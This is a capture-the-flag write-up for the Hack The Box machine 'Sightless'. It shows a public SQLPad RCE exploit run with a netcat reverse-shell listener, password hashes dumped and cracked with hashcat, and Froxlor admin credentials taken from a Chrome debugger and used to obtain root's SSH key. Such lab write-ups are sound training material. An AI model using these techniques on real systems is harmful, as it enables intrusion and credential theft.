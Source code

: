 ```yaml
---
title: "HTB Seasonal: Sightless"
author: "v3l1d"
date: "2024-10-23"
hiddenFromHomePage: true
password: "insaneclownposse"
---
```



![](attachment/3c53323d2941b4f7ea6cae026cd9a5fe.jpg)

**Port Scanning**

```shell
# Nmap 7.94SVN scan initiated Sat Oct 19 07:30:38 2024 as: nmap -sC -sV -A -T4 -o port_scan 10.10.11.32
Nmap scan report for 10.10.11.32
Host is up (0.055s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/19%Time=6713986B%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 19 07:31:50 2024 -- 1 IP address (1 host up) scanned in 72.13 seconds

```

On port 80 you can find:
![](attachment/8db1342a35138b47d996fa54bd247351.png)

Go trough SQLPad pushing on start now and you'll be redirected to SQLPAD console and you can fetch SQLPad version:

![](attachment/9b1808231436cb591e9d9f85527fdd63.png)

**Version 6.10.0 identified, let's try find out something about:

![](attachment/2bf35d48995bbaeef6b26b37d2d20de1.png)

URL: https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944/tree/main

Let's clone the repository and try to run the exploit, while listening on a wished port from another terminal:

```shell
┌──(kali㉿kali)-[~/HTB/Sightless/sqlpad-rce-exploit-CVE-2022-0944]
└─$ python3 exploit.py http://sqlpad.sightless.htb 10.10.14.113 9091
---------------------------------------------------------------------
┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ nc -lnvp 9091
listening on [any] 9091 ...
```

And got the shell:


![](attachment/fe342ce104a9a7cfb82690372af1f7f2.png)

There's a file sqlpad.sqlite:
![](attachment/9ee6825e92c38020c4d8b7f7fbb9f070.png)

In this file are present some interesting parts:

```
admin@sightless.htbadmin$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.
����1john@sightless.htb3        admin@sightless.htb
```

Meanwhile try to run a linpeas on sqlpad machine:
![](attachment/cb5e7e14d62ecb6a8111c1d31d0440bd.png)

![](attachment/a0f88f95ba5694f4e5d41dc034b8ce87.png)

There's an hash for user **micheal** in passwd file:

```
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7::
```

Try to crack it with hashcat:

```shell
┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ # Example command for Hashcat
hashcat -m 1800 -a 0 -o cracked_micheal_hash.txt micheal_user_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
......
Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa....L2IJD/
Time.Started.....: Sat Oct 19 08:58:04 2024 (43 secs)
Time.Estimated...: Sat Oct 19 08:58:47 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1344 H/s (8.77ms) @ Accel:64 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 58496/14344384 (0.41%)
Rejected.........: 0/58496 (0.00%)
Restore.Point....: 58432/14344384 (0.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidate.Engine.: Device Generator
Candidates.#1....: jhoselin -> iloverhys
Hardware.Mon.#1..: Util: 89%

Started: Sat Oct 19 08:58:02 2024
Stopped: Sat Oct 19 08:58:49 2024

┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ cat cracked_micheal_hash.txt 
$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse


```

Try ssh into **michael**:

![](attachment/e86b9c94c5913aea4b70e9b7e3fb03cc.png)

```
userflag:9dc449a3cd76e16166ea0ae08bd65880
```

By analyzing services running on port:

![](attachment/c6a62ceea6e4a4ba4721657b76a164e5.png)

During ports forwarding trough SSH i found that there's froxlor running on 8080, but isn't reachable due the missing of it's domain name. Inspecting other ports i found that port 40975 is the port of an available chrome debugger:

![](attachment/91d6ba2807b9fbb33ce0dc23bd8ee157.png)

![](attachment/70fff9de0a46ccc3364d2458727d946c.png)

```
admin:ForlorfroxAdmin
```


![](attachment/46aef148daacdeee888551a751e330d5.png)

![](attachment/82f88746687d4741f0f013bf84f1f829.png)

After saving the PHPFM configuration disable and enable this by settings panel after querying 
`http://127.0.0.1:8080/admin_settings.php?start=phpfpm`

Now redo this procedure with the chmod command on id_rsa file just copied:

```
chmod 644 /tmp/id_rsa
```

![](attachment/51da7e56b9548e78bc8115eeb77b66b8.png)

After a bit the command will be executed and you will be able to use id_rsa to login into root's ssh:

![](attachment/b21470aaf193edff2e229c3637135c2c.png)

```
rootflag: 7a2a1b4afb44130a744827929fe643d3
```
